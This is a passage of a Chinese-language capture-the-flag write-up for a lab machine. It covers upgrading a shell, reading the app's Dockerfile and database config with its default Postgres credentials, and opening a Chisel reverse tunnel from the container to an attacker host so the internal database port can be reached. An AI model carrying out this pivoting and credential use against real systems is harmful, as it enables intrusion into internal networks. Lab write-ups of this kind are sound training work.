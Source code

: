 然后是upgrade shell  `^Z`  后，输入

```
stty raw -echo; fg
```

到用户 $HOME目录下，获取user.flag

## root flag

在 `/app` 目录下查看Dockerfile，当前网站是在容器内运行。

Dockerfile的内容如下：

```docker
FROM python:3.6.9-alpine

RUN apk --update --upgrade add --no-cache  gcc musl-dev jpeg-dev zlib-dev libffi-dev cairo-dev pango-dev gdk-pixbuf-dev

WORKDIR /app
ENV HOME /home/svc
ENV PATH /home/svc/.local/bin:${PATH}
RUN python -m pip install --upgrade pip --user svc
COPY requirements.txt requirements.txt
RUN pip install -r requirements.txt
RUN pip install pydantic[email] pyjwt
EXPOSE 8000
COPY . .
CMD ["python3", "-m", "uvicorn", "app.main:app", "--reload", "--workers", "100", "--host", "0.0.0.0", "--port" ,"8000"]
```

在 `/app/app` 下，有有关这个网站的全部py代码，config.py是空，但是db.py有（地址是docker的地址）

```docker
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")
```

想到之前在推看到的文章： [https://dmesg.app/ufw-vs-docker.html](https://dmesg.app/ufw-vs-docker.html) 

![Untitled](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/2023031510.png)

我对这块不太熟悉，所以还是看了大佬的writeup的思路过程。

用https://github.com/jpillora/chisel 的开源

攻击机：

```docker
./chisel_1.8.1_linux_amd64 server -p 8000 --reverse
```

container：

用 Chisel 工具建立一个反向隧道（8000端口），将本地客户端的 5432 端口映射到远程服务器 172.22.0.1 的 5432 端口。

```docker
./chisel_1.8.1_linux_amd64 client 10.10.14.32:8000 R:5432:172.22.0.1:5432
```
